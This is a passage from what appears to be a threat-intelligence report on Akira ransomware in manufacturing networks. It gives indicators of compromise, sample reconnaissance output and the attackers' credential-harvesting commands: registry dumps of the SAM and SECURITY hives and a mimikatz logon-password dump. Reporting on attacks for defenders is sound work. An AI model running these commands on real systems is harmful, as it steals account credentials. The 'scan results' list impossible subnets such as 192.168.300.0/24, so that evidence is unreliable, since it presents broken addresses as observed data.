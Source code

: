 **Indicators of Compromise**:
- Brute force patterns targeting manufacturing service accounts
- RDP traffic from unusual geographic locations during non-operational hours
- Authentication attempts against engineering workstation credentials
- VPN connections from manufacturing vendor IP ranges with suspicious timing

### Production System Reconnaissance

Following initial access, Akira conducts systematic reconnaissance of manufacturing environments to identify production-critical systems and operational technology networks. The threat actors specifically target systems controlling manufacturing processes with the highest business impact potential.

**Manufacturing System Discovery**:
```
Network Scan Results:
- SCADA Network: 192.168.100.0/24 (Production Control Systems)
- Engineering Network: 192.168.200.0/24 (CAD/CAM Systems)
- Quality Network: 192.168.300.0/24 (Quality Control Systems)
- MES Network: 192.168.400.0/24 (Manufacturing Execution Systems)

Critical System Identification:
- Primary Production Line Controller: 192.168.100.10
- Backup Production Controller: 192.168.100.11
- Manufacturing Data Historian: 192.168.100.15
- Quality Management System: 192.168.300.10
```

### Credential Harvesting and Privilege Escalation

Akira demonstrates sophisticated credential harvesting techniques specifically targeting manufacturing environments, focusing on service accounts with access to production systems and intellectual property repositories.

**Credential Access Evidence**:
```powershell
# Akira credential harvesting observed in manufacturing environments
# Service Account Targeting
net user /domain | findstr /i "mfg svc prod scada eng quality"

# Manufacturing-Specific Credential Extraction
reg save HKLM\SAM C:\Windows\Temp\mfg_sam.tmp
reg save HKLM\SECURITY C:\Windows\Temp\mfg_security.tmp

# Production System Authentication Material
mimikatz.exe "sekurlsa::logonpasswords" "exit"
```

---

## Cross-Sector Impact Assessment

Manufacturing disruption from Akira ransomware creates cascading effects across interconnected infrastructure sectors that communities depend on for essential services and sustainable development.
